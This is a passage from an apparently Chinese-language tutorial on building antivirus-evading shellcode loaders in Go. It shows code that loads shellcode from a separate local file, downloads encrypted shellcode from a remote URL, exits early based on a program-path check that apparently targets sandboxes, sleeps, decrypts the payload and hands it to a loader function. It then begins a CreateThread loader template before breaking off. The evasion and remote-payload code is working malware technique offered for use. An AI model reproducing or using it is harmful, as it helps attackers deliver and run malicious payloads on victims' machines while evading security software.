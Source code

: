 Golang 读取文件很简单只需要导入 `"io/ioutil"`，在使用 ReadFile 来读取，就可以实现 Shellcode 不在程序中，而在外部，这样将大大降低被杀的可能性。

```bash
content, err := ioutil.ReadFile("{{LOCAL_FILENAME}}")
    if err != nil {
        return
    }
```

## Golang - 分离免杀 - 远程分离

在 Golang 中，还可以使用 `"github.com/valyala/fasthttp"`库，来请求远程的 Shellcode

封装一个函数，方便复用，代码如下

```bash
func fetchShellcode() []byte {

    url := "{{REMOTE_URL}}"

    _, body, _ := fasthttp.Get(nil, url)

    return body
}
```

在 main 函数中，使用一个变量来接受返回的数据，再传给 Ldr1 函数

```bash
func main() {

    args := os.Args[0]
    if (args[10] == 92 && (args[0] == 99 || args[0] == 67)) {
        os.Exit(0)
    }

    Sleeeep()

    ciphertext := fetchShellcode()

    byteData := DecryptData(string(ciphertext))

    Ldr1(byteData)

}
```

## 将 CreateThread 调用方式添加到模板中

复制一份 go\_VirtualAlloc 重命名为 go\_CreateThread，并将目录下的 go\_VirtualAlloc.go 也重命名为 go\_CreateThread.go，命名完成目录结构如下
